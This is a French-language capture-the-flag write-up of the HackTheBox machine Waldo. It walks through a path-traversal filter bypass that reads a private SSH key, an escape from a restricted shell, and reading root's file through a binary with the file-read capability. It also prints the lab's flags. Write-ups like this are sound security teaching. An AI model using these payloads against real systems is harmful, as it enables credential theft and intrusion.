 ```yaml
---
title: Solution du CTF Waldo de HackTheBox
tags: [CTF,HackTheBox]
---
```


Il était où hein le Charlie ?
-----------------------------

Un port SSH, un port HTTP... difficile de faire plus classique comme début.  

Sur la page d'index un système de gestion de listes :  

![Waldo CTF HackTheBox list manager](/assets/img/htb/waldo_list_manager.png)

En ouvrant les dev-tools on trouve des requêtes XHR comme cette requête vers *dirRead.php* pour lister les listes et qui sent bon le path traversal :  

![Waldo CTF HackTheBox list manager XHR](/assets/img/htb/waldo_xhr.png)

Si on accède à une liste c'est *fileRead.php* qui est appelé. Même pressentiment :)  

Le plus pratique est d'intercepter la requête à travers [Zed Attack Proxy](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) pour pouvoir ensuite l'éditer et la retransmettre.  

On remarque vite une particularité si on tente de remonter dans le path :  

```
path= => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=. => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=.. => [".","..","html","localhost"]
path=../.. => [".","..","html","localhost"]
path=../../ => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Au boût d'un moment on revient au répertoire courant, il y a donc un *str\_replace()* qui doit corriger notre path.  

Si on part de l'idée que le filtre est sur ../../ alors on peut le précéder de .. et ajouter un / final ainsi la suite de caractères ..../..// correspondra à une remontée dans l’arborescence :  

```
path=..../..//..../..// => [".","..","cache","empty","lib","local","lock","log","opt","run","spool","tmp","www"]
path=..../..//..../..//..../..// => [".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]
```

On se balade jusqu'à ce dossier :  

```
path=..../..//..../..//..../..//home/nobody
[".","..",".ash_history",".ssh",".viminfo","l.sh","user.txt"]
```

Et dans le dossier *.ssh* on voit un fichier *.monitor* qui s'avère être... la clé privée SSH :)  

Pour obtenir le contenu la même faille est présente sur l'autre script ce qui nous amène à cette requête :  

```
POST http://10.10.10.87/fileRead.php HTTP/1.1
file=..../..//..../..//..../..//home/nobody/.ssh/.monitor
```

Free Charlie
------------

```
$ ssh -i waldo.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

Hmmm Charlie semble être enfermé dans un environnement *Docker* (*Alpine* est une version de Linux souvent utilisée dans ces envs parce que très allégée).  

Cela est très vite confirmé avec les interfaces réseau :  

```
docker0   Link encap:Ethernet  HWaddr 02:42:D3:28:1C:FD
          inet addr:172.17.0.1  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
      RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

L'accès est suffisant pour avoir le flag utilisateur (*32768bcd7513275e085fd4e7b63e9d24*).  

Prends la clé ! Sors sors !
---------------------------

Dans la liste des *authorized\_keys* de notre compte *nobody* se trouve une référence à un certain *monitor* :  

```
ssh-rsa AAAAB3NzaC1---snip---Y4jBHvf monitor@waldo
```

Si on réutilise la clé pour accéder au serveur SSH depuis le docker :  

![Waldo CTF HackTheBox monitor ssh account ascii art](/assets/img/htb/waldo_ascii_art.png)

On peut facilement bypasser le lancement du rbash (un bash restreint) en spécifiant le shell que l'on souhaite à SSH (on utilisera ici les options -t bash --noprofile).  

On obtient un shell à première vue limitée mais il s'agit en réalité du PATH peu remplis, ce qui est vite corrigé :  

```
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
monitor@waldo:~$ export PATH=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin:/usr/local/sbin:$PATH
```

Say Cap-tain, Say wut ?
-----------------------

Après avoir tourné un moment à chercher un chemin classique d'exploitation il est temps de se pencher sur les fichiers présents dans le dossier app-dev.  

On trouve un exécutable *logMonitor* à l'usage suivant :  

```
Usage: logMonitor [-aAbdDfhklmsw] [--help]
```

Contrairement à ce qu'on pouvait espérer l'option *--help* ne donne pas d'aide détaillée mais qu'importe puisque le code C est aussi présent :  

```c
{"auth", no_argument, 0, 'a'},
{"alternatives", no_argument, 0, 'A'},
{"btmp", no_argument, 0, 'b'},
{"dpkg", no_argument, 0, 'd'},
{"daemon", no_argument, 0, 'D'},
{"faillog", no_argument, 0, 'f'},
{"help", no_argument, 0, 'h'},
{"kern", no_argument, 0, 'k'},
{"lastlog", no_argument, 0, 'l'},
{"messages", no_argument, 0, 'm'},
{"syslog", no_argument, 0, 's'},
{"wtmp", no_argument, 0, 'w'},
```

En fonction de l'option choisie un path hardcodé est recopié vers une variable *filename*. Une fonction *printFile* est ensuite appelée qui affiche le fichier demandé via une boucle avec *fgetc* et *printf* (beurk).  

Parmi les paths correspondantq aux options on trouve */var/log/auth.log*, */var/log/faillog*, */var/log/wtmp*, etc autant dire des fichiers généralement pas accessibles à tout le monde.  

D'ailleurs si on lance *logMonitor -f* pour obtenir le *faillog* on obtient le message d'erreur *Cannot open file*.  

Le binaire n'est pas setuid et sudo n'est pas installé... logique quoi.  

En revanche une fois dans le sous dossier *v0.1* le binaire *logMonitor-0.1* parvient à lire le fichier... avec les mêmes observations (il n'est pas setuid) so what the fuck !?  

On fait un *getcap* dessus pour lister ses [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) et surprise :  

```
logMonitor-0.1 = cap_dac_read_search+ei
```

Ce programme a le super-pouvoir d'accéder à n'importe quel fichier du système en se moquant bien des permissions.  

Mais après avoir bien épluché le code C ce dernier ne semble pas faillible. Je ne suis pas au point sur les détails de fonctionnement des *capabilities* alors dans le doute j'ai tenté de hooker l'appel à *puts()* dans le code (via un *LD\_PRELOAD*) mais sans trop de surprises ça n'a pas été pris en compte.  

Finalement il fallait faire un gros *getcap* sur le disque pour trouver un autre binaire avec les même super-pouvoirs :  

```
monitor@waldo:~/app-dev$ getcap -r / 2> /dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei

monitor@waldo:~/app-dev$ tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
```


*Published December 15 2018 at 19:09*
